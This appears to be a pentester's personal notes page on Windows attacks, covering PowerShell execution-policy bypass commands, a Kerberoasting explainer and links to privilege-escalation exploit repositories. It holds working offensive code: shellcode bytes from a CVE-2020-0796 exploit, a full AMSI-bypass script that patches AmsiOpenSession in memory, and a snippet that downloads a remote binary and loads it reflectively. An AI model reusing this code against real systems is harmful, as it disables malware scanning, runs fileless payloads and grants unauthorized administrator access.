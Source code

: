 # Execution policy bypass

powershell - ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand $env:PSExecutionPolicyPreference="bypass"

Import-Module 
Get-Command -Module 

![](20220801163041.png) 

# kerberoasting

In such an attack, an adversary masquerading as an account user with a service principal name (SPN) requests a ticket, which contains an encrypted password, or Kerberos. (An SPN is an attribute that ties a service to a user account within the AD). The adversary then works offline to crack the password hash, often using brute force techniques.

What is a Kerberoasting attack?
Kerberoasting is a post-exploitation attack technique that attempts to crack the password of a service account within the Active Directory (AD).


How do Kerberoasting attacks work?
Kerberoasting attacks exploit a combination of weak encryption techniques and insecure or low-quality passwords. These attacks typically follow the below process:

An attacker who has already compromised the account of a domain user authenticates the account and launches a new session.
The attacker, who appears to be a valid domain user, requests a Kerberos service ticket from the ticket granting service (TGS) using tools like GhostPack’s Rubeus or SecureAuth Corporation’s GetUserSPNs.py.
The adversary receives a ticket from the Kerberos key distribution center (KDC). The ticket contains a hashed version of the account’s password, or Kerberos.
The adversary captures the TGS ticket and Kerberos from memory and takes it offline.
The hacker attempts to crack the SPN value or service credential hash to obtain the service account’s plaintext password using brute force techniques or tools like Hashcat or JohnTheRipper.
With the service account password in hand, the adversary attempts to log in to the service account and is granted access to any service, network or system associated with the compromised account.
The attacker is then able to steal data, escalate privileges or set backdoors on the network to ensure future access.

# for privilege escalation

https://sushant747.gitbooks.io/total-oscp-guide/content/privilege_escalation_windows.html


# trying https://github.com/danigargu/CVE-2020-0796.git

this need sto be ttried on windows verion 1903 and 1909. downloading iso.

does not work in 1503

this actually uses an evaded windows shellcode

```C
uint8_t shellcode[] = {
		 0x50, 0x51, 0x52, 0x53, 0x56, 0x57, 0x55, 0x6A, 0x60, 0x5A, 0x68, 0x63, 0x6D, 0x64, 0x00, 0x54,
		 0x59, 0x48, 0x83, 0xEC, 0x28, 0x65, 0x48, 0x8B, 0x32, 0x48, 0x8B, 0x76, 0x18, 0x48, 0x8B, 0x76,
		 0x10, 0x48, 0xAD, 0x48, 0x8B, 0x30, 0x48, 0x8B, 0x7E, 0x30, 0x03, 0x57, 0x3C, 0x8B, 0x5C, 0x17,
		 0x28, 0x8B, 0x74, 0x1F, 0x20, 0x48, 0x01, 0xFE, 0x8B, 0x54, 0x1F, 0x24, 0x0F, 0xB7, 0x2C, 0x17,
		 0x8D, 0x52, 0x02, 0xAD, 0x81, 0x3C, 0x07, 0x57, 0x69, 0x6E, 0x45, 0x75, 0xEF, 0x8B, 0x74, 0x1F,
		 0x1C, 0x48, 0x01, 0xFE, 0x8B, 0x34, 0xAE, 0x48, 0x01, 0xF7, 0x99,
		 0xff, 0xc2, // inc edx (1 = SW_SHOW)
		 0xFF, 0xD7, 0x48, 0x83, 0xC4,
		 0x30, 0x5D, 0x5F, 0x5E, 0x5B, 0x5A, 0x59, 0x58, 0xC3, 0x00
	};

```


`winver` for windows version



exe hosted 

```powershell
function LookupFunc {
 Param ($moduleName, $functionName)
 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
 $tmp=@()
 $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null,@($moduleName)), $functionName))
}

function getDelegateType {
 Param ([Parameter(Position = 0, Mandatory = $True)] [Type[]] $func,[Parameter(Position = 1)] [Type] $delType = [Void])
 $type = [AppDomain]::CurrentDomain.DefineDynamicAssembly((New-Object System.Reflection.AssemblyName('ReflectedDelegate')), [System.Reflection.Emit.AssemblyBuilderAccess]::Run).DefineDynamicModule('InMemoryModule', $false).DefineType('MyDelegateType', 'Class, Public, Sealed, AnsiClass, AutoClass', [System.MulticastDelegate])
 $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
 $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed') 
 return $type.CreateType()
}

[IntPtr]$funcAddr = LookupFunc amsi.dll AmsiOpenSession
$oldProtectionBuffer = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((LookupFunc kernel32.dll VirtualProtect), (getDelegateType @([IntPtr], [UInt32], [UInt32], 
[UInt32].MakeByRefType()) ([Bool])))
$vp.Invoke($funcAddr, 3, 0x40, [ref]$oldProtectionBuffer)

$buf = [Byte[]] (0x48, 0x31, 0xC0) 
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $funcAddr, 3)

$vp.Invoke($funcAddr, 3, 0x20, [ref]$oldProtectionBuffer)

```
# https://github.com/exploitblizzard/Windows-Privilege-Escalation-CVE-2021-1732.git



```powershell
$bytes = (Invoke-WebRequest "http://example.com/path/to/binary.exe" -UseBasicParsing ).Content
$bytes = [System.Convert]::FromBase64String($string)
$assembly = [System.Reflection.Assembly]::Load($bytes)

$entryPointMethod = 
 $assembly.GetTypes().Where({ $_.Name -eq 'Program' }, 'First').
   GetMethod('Main', [Reflection.BindingFlags] 'Static, Public, NonPublic')

# Now you can call the entry point.
# This example passes two arguments, 'foo' and 'bar'
$entryPointMethod.Invoke($null, (, [string[]] ('foo', 'bar')))
```

# https://github.com/ly4k/SpoolFool

works on 1803 

can we define different Adduser and binary 

we can run with powershell

spoolfool

can we uninstall a security update through command line 

# https://github.com/Ascotbe/Kernelhub

for cve 

# we tried CVE-2016-0099	Secondary Logon Handle

we can get into administrator a command line


